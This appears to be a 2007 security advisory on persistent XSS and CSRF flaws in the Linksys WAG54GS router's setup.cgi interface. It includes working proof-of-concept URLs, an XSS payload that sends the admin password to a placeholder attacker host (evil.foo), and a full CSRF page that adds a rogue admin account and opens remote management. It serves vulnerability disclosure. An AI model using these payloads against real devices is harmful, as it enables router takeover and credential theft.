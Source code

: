```yaml
---
title: Persistent XSS and CSRF on Wireless-G ADSL Gateway with SpeedBooster (WAG54GS)
author: pagvac
date: Tue, 20 Nov 2007 20:51:16 GMT
template: post.pug
---
```


I really think that web interfaces are the _low-hanging fruit_ of embedded devices. Sure classic attacks such as predictable SNMP community strings, exposed TFTP services and buffer overflows still apply. However, by exploiting the web interface we can steal the data we want, we can enable remote access to the compromised router, we own the victim's connection. In short, bugs on the web interface gives us all we need! Anyway, enough talking! The following are some of the issues I found on the Cisco Linksys WAG54GS.

The following vulns were found on 24 June 2007 and were tested against firmware V1.00.06. The specific persistent XSS holes mentioned in this advisory were fixed by Cisco on firmware version V1.01.03. However, there are still several other persistent XSS plus the system-wide CSRF in the latest firmware. [CVE-2007-3574](http://nvd.nist.gov/nvd.cfm?cvename=CVE-2007-3574) has been assigned to these issues. Thanks a lot to Cisco for being so great when dealing with my emails! Credits also go to pdp for providing feedback, ideas and allowing me to play with his spare [WAG54GS](http://snipurl.com/1txmt) router.

By the way, part of this advisory got leaked some time ago on FD, but I am publishing it as a formal release with additional information including a password leak which can be combined with any of the persistent XSS holes found (keep reading for more info on this).

### Description

There are several persistent XSS vulnerabilities on the `/setup.cgi` script. It is possible to inject JavaScript by assigning a payload like the following to any of the vulnerable parameters:

    ><script>[PAYLOAD]</script>

    The vulnerable (non-sanitized) parameters are the following: `devname`, `snmp_getcomm`, `snmp_setcomm`, `c4_trap_ip_`. Additionally, all HTTP requests are not tokenized with random values. Thus, all requests to the router's HTTP interface are vulnerable to Cross-site Request Forgeries (CSRF), perhaps by design. The following is an example of a HTTP request (notice the lack of non-predictable tokens):

    POST /setup.cgi HTTP/1.1
    Authorization: Basic YWRtaW46YWRtaW4=

    mtenRestore=Restore+Factory+Defaults&todo=defaultsettings&this_file=Factorydefaults.htm&next_file=index.htm&message=

    Although the original request is a POST, we can convert it to a GET, so that all posted parameters can be submitted on a single URL. For example, the previous POST request can be converted to a URL such as the following:

    http://admin:admin@192.168.1.1/setup.cgi?mtenRestore=Restore+Factory+Defaults&todo=defaultsettings&this_file=Factorydefaults.htm&next_file=index.htm&message=

    By forging administrative requests (Administration button on the router's HTML menu), an attacker can compromise the router provided the victim user visits a malicious URL or HTML page. The attack can only be successful if the administrator hasn't changed the default credentials (admin/admin) or the administrator's browser has an active authentication session with the router's interface when the attack happens (highly unlikely)

    ### Persistent XSS PoC

    The following URL creates a DoS condition by making the Administration page inaccessible since `history.back()` will run every time the Administration page is visited. Thus the administrator won't be able to ever change the default credentials unless a hard reset is performed by using the router's physical "restart" switch:

    http://admin:admin@192.168.1.1/setup.cgi?user_list=1&sysname=admin&sysPasswd=admin&sysConfirmPasswd=admin&remote_management=enable&http_wanport=8080&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=1&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=">history.back()&h_snmp_enable=enable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=

    Note that he administration page (`/setup.cgi?next_file=Administration.htm`) returns the admin password within the client-side HTML source code as a hidden field. i.e.:

    <input type="hidden" name="old_pwd" value="admin">

    Therefore, we could also inject a payload in our persistent XSS attack which accesses the admin password through the DOM object:

    document.administration.old_pwd.value

    ...and submits it to the attacker's site every time the page is accessed. That way, even if the victim admin changed the password, the attacker would receive the value of the new password! Here is an example payload:

    "><script>img=new Image();img.src='http://evil.foo/?last_pwd='+document.administration.old_pwd.value</script><a b="

    ### CSRF PoC

    The following HTML page does the following:

* adds an additional administrative account, with a username equals to 'attacker' and a password equals to 0wned (without removing original admin account!)
* enables remote HTTP management over port 1337
* sets other settings that are inrelevant to this discussion

    <html>
    <body>
    	<script>
    	// send 2 requests to add an administrative account and enable remote management
    	// tries with default credentials and with credentials cached by browser (if any)

    	var img = new Image();
    	var img2 = new Image();

    	img.src = 'http://admin:admin@192.168.1.1/setup.cgi?user_list=8&sysname=attacker&sysPasswd=0wned&sysConfirmPasswd=0wned&remote_management=enable&http_wanport=1337&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=8&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=&h_snmp_enable=disable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=';
    	img2.src = 'http://192.168.1.1/setup.cgi?user_list=8&sysname=attacker&sysPasswd=0wned&sysConfirmPasswd=0wned&remote_management=enable&http_wanport=1337&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=8&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=&h_snmp_enable=disable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=';
    	</script>
    </body>
    </html>

The first URL forges the administrative request using the default credentials, so it won't work if default credentials have been changed. The second URL doesn't specify any credentials as an attempt to use the browser's cached credentials. If the admin user has clicked on "Save password" on the basic authentication prompt, most browsers will prompt the user to confirm submitting the cached credentials. The only situation in which browsers won't ask the user to confirm submitting the credentials would be if the malicious CSRF page was visited while the browser has an active authenticated session with the router's HTTP interface (very unlikely).

### Additional notes

* router reboots after saving settings (requests sent to `setup.cgi`)
* all attacks were tested using Internet Explorer 7
